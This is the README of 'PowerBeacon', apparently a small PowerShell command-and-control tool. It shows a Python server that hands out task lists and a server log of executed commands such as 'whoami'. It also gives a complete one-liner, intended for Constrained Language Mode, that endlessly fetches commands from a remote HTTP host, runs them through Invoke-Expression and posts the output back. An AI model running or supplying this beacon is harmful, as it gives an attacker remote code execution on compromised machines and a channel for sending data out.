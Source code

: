 # PowerBeacon
This is simple script of reading and execute command from a http in PowerShell.

# Usage
## Server
```
$ cat tasks
echo test
whoami

$ python3 server.py -i 127.0.0.1 -p 8888 
Serving HTTP on :: port 8888 ...

# Client accesss and execute the contents of /tasks. The result is forwarded to the server.
127.0.0.1 - - [20/Aug/2024 00:00:10] "GET /tasks.txt HTTP/1.1" 200 -
127.0.0.1 - - [20/Aug/2024 00:00:10] "POST / HTTP/1.1" 200 -
test
MyPC\User
```

## Client
```
PS > beacon_http.ps1 <Server IP address:port> <Polling interval>
```

If you want to run in CLM(Constratined Langage Mode), use 'beacon_oneliner.ps1'
```
PS > while ($true) {$url="http://127.0.0.1:8888";$response = Invoke-WebRequest -Uri $($url + "/tasks.txt");$results = Invoke-Expression $response.Content;Invoke-WebRequest -Method Post -Uri $url -Body $($results -join "`n") -ContentType "application/text" > $null ;Start-Sleep -Seconds 10}
```